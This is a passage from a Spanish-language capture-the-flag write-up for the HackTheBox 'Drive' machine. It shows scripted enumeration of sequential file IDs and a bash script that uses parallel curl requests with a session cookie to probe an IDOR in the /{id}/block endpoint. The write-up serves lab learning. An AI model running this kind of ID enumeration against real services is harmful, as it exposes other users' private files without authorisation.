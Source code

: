 - Y me mostró lo siguiente:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Drive]
└─$ ./recon.sh
..........................................................................
[+] El archivo 79 existe ---> Status code = 401
......................
[+] El archivo 98 existe ---> Status code = 401
[+] El archivo 100 existe ---> Status code = 200
[+] El archivo 101 existe ---> Status code = 401
[+] El archivo 99 existe ---> Status code = 401
.......................................................................................................................................................................................................  
~~~

- Al parecer solo tenemos autorización para ver el archivo 100.
- Vamos a subir un archivo de prueba, a ver si se le asigna algún atributo especial para controlar la visibilidad de otros usuarios:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Drive]
└─$ echo '[+] Archivo de prueba - Formato ASCII' > test.txt && cat test.txt
[+] Archivo de prueba - Formato ASCII
~~~

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/02e72ecb-4611-4c0e-acdc-075447984cde)

- Una vez subido, podemos sacar la conclusión de que el id es secuencial y no aleatorio:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/57cfbf38-3a4b-4cfe-b010-07c97edc1200)

- Tenemos otro apartado que se encuentra en `http://drive.htb/{id}/block`, donde podemos encontrar otro IDOR. 
- Intentaré cambiar el `getFileDetail` en el script por `block`.
- Me mostraba demasiados códigos de estado `404`, así que los bloqueé:

~~~bash
#!/bin/bash

check_file() {
  x=$1
  rsp=$(curl -s -o /dev/null -w "%{http_code}" -X GET "http://drive.htb/${x}/block/" -H "Cookie: sessionid=ra10h8mnoi6ihox4fuowap771wmejd34")
  if [ "$rsp" -ne 500 ] && [ "$rsp" -ne 404 ]; then
    echo -ne "\n[+] El archivo ${x} existe ---> Status code = ${rsp}\n"
  else
    echo -ne "."
  fi
}

export -f check_file

seq 0 300 | xargs -P 15 -I {} bash -c 'check_file "$@"' _ {}
~~~
